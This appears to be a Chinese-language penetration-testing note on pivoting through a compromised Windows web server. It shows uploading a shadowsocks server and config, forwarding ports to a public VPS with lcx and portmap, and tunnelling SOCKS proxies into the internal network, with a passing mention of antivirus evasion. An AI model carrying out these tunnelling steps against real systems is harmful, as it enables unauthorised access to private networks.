




shadowsocks/libQtShadowsocks

https://github.com/shadowsocks/libQtShadowsocks/releases

将它上传到Windows系统的Web服务器上

config.json
	
	{
	
	    "server":"0.0.0.0",
	
	    "server_port":1080,
	
	    "local_address":"127.0.0.1",
	
	    "local_port":1080,
	
	    "password":"SOCKS5",
	
	    "timeout":600,
	
	    "method":"aes-256-cfb",
	
	    "http_proxy": false,
	
	    "auth": false
	
	}

将config.json文件上传到同一目录下。

由于这个代理服务端并不是架设在具有公网IP的服务器上，并且不具备反弹代理的功能，因此我们还需要利用lcx将代理端口映射到公网上。

https://www.freebuf.com/news/topnews/111545.html

https://www.freebuf.com/articles/system/12182.html

http://rootkiter.com/Termite/

架设代理服务端，

Windows系统的Web服务器上执行:

	shadowsocks-libqss.exe –c config.json –S

lcx.exe 是一个基于 socket 套接字实现的端口转发工具，它是从 linux 下的htran 工具移植到windows平台的。一条正常的socket隧道必具备两端，一侧为服务端，它会监听一个端口等待客户端连接；另一侧为客户端，通过传入服务端的ip和端口，才能主动连接到服务器。

linux vps  

	./portmap -m 2 -p1 2333 -p2 8080

windows vps

	lcx –listen 2333 8080

将本机2333端口上监听到的所有数据转发到本机的8080端口上。

在windows Web服务器上执行

	lcx –slave vps 2333 127.0.0.1 808

将目标机器808端口的所有数据都转发到公网VPS的2333端口上。

(以上2步将本地808端口的web服务映射到vps 8080端口下)

Lcx工具实现的是一对一的端口转发，如果想访问右侧网络中列出的所有端口，就必须一次次的重复lcx的转发过程，效率相当低下。而且服务器都是有装有杀毒软件的，即使有做免杀也不能保证绕过所有的杀毒。

vps回显：

windows web回显

像这种情况就可以用到socks代理，在既能连接外网又能连接内网的WEB服务器上架设代理。

socks代理其实也可理解为一个增强版的 lcx，它在服务端监听一个服务端口，当有新的连接请求时会从socks协议中解析出访问目标的URL的目标端口，再开始执行lcx的具体功能。

比较常见的Socks5工具有htran，reGeorg等，socks4的有metasploit

Proxifier是一款功能非常强大的socks5客户端，可以让不支持通过代理服务器工作的网络程序能通过HTTPS或SOCKS代理或代理链。

## SocksCap64  代理单个程序 (windows)  (SocksCap64-Portable-4.7)

1 开启ss,pac模式，或代理服务器
 
2 配置 SocksCap64 添加本地代理

3 添加想代理的程序，可以是exe文件的路径

4 添加完右键点击想要使用代理的程序，选择"在代理隧道中运行选中程序"。

5 例如我添加的火狐。打开百度查ip，发现是ss的ip，说明浏览器所有流量走socks代理了。这里有一个问题，访问google.com 网址失败。

用谷歌浏览器无此问题。

## 参考资料

[EW多级渗透](http://www.dkys.org/archives/1168.html)